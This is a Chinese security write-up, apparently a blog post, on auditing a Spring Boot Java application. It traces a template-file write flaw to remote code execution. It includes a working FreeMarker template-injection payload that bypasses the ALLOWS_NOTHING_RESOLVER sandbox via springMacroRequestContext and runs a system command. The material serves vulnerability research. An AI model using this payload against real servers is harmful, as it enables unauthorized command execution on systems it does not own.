








# 一次JAVA项目的漏洞挖掘-先知社区

> **来源**: https://xz.aliyun.com/news/17506  
> **文章ID**: 17506

---

## **审计流程：**

系统架构：springboot+jar包的部署方式。鉴权采用spring security + spring oauth2的认证方式。

​

在配置类中发现Freemarker的配置类：



从上面的截图中可以看到，其中从代码：

factory.setTemplateLoaderPaths("file:"+PathUtil.defaultExternalDirectory() 可以猜测freemarker可能存在可以操作的地方，因为这种写法都是用于拓展解析模板的：

确定思路后我们直接搜索关键路径：foregroundView

​

可以看到在很多Action中存在该字符串，后续就需要逐一排查Action中是否存在可以在该路径下进行文件操作，继续查看配置：



发现模板文件必须要html文件结尾。

​

开始寻找可以写入文件滴地方，在LayoutManageAction 中发现存在向foregroundView路径中写入html文件的操作，所以导致模板内容由我们可控。



随便寻找一处触发模板的地方，例如index首页。



### Exp的编写：

由于freemarker版本是2.3.32，并且设置了

configuration.setNewBuiltinClassResolver(TemplateClassResolver.ALLOWS\_NOTHING\_RESOLVER);

这会导致默认的exp无法使用，并且也调用不了getClassLoader方法。但是由于是和springboot相依赖，可以使用 springMacroRequestContext 进行绕过：

```
<#assign ac=springMacroRequestContext.webApplicationContext>
<#assign fc=ac.getBean('freeMarkerConfigurer')>
<#assign cfn=fc.getConfiguration()>
<#assign dcr=cfn.getDefaultConfiguration().getNewBuiltinClassResolver()>
<#assign VOID=cfn.setNewBuiltinClassResolver(dcr)>${"freemarker.template.utility.Execute"?new()("whoami")}
```

成功执行：



​
